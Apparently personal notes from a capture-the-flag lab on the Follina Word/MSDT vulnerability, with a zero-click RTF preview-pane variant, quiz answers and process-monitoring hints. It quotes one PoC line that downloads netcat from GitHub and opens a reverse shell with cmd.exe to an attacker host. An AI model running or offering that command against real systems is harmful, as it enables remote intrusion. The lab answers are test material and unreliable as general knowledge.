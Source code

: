 “Zero Click” Implementation

    In order to replicate the “zero click” implementation of this vulnerability, we simply head to the malicious word file, add a cute message (completely optional), save it in the Rich Text Format (RTF), and we’re good to go. This implementation assumes that the victim machine is in the preview pane view, else it will revert to the original functionality which will still run upon opening of the file.
    
![](https://miro.medium.com/max/720/1*36G5s5CRs_0g_xPiIU8VFw.png)

![](https://miro.medium.com/max/720/1*ZB4BIKkAfesDD9PwJpa9Vw.png)

![](https://miro.medium.com/max/720/1*XGCtrjSYp-9MpM2CIR1JiQ.png)

![](https://miro.medium.com/max/720/1*tujydyxQTfYxkZzx2qn6iw.png)
And the calculator got spawned even without opening the maldoc! 😱

	What application got executed upon opening of the maldoc that signified compromise? Answer format is "<app>.exe"
*win32calc.exe*



What is the filename of the .docx file that has been discovered in the wild? Write it exactly as you see it.

Fun fact: The last part of the filename is actually the area code of Follina, Italy which is where this vulnerability got it's name from.
External Research Required
![[Pasted image 20221028185635.png]]
https://www.virustotal.com/gui/file/4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784/details
*05-2022-0438.doc*


The PoC that we used has the capability to establish a reverse shell upon exploit - what binary is being used to accomplish this?
Check the follina.py file
```
command = f"""Invoke-WebRequest https://github.com/JohnHammond/msdt-follina/blob/main/nc64.exe?raw=true -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""
```
*netcat* 


	Where is this binary being downloaded?
	*C:\\Windows\\Tasks*


In the original exploit execution, two parent processes are of interest in the list of running processes in Process Explorer, one of them is WINWORD.EXE. Can you find the other one?
Pay attention to own processes (purple highlight). Close everything and check process explorer again. Re-run the maldoc and check process explorer again.
![[Pasted image 20221028190150.png]]
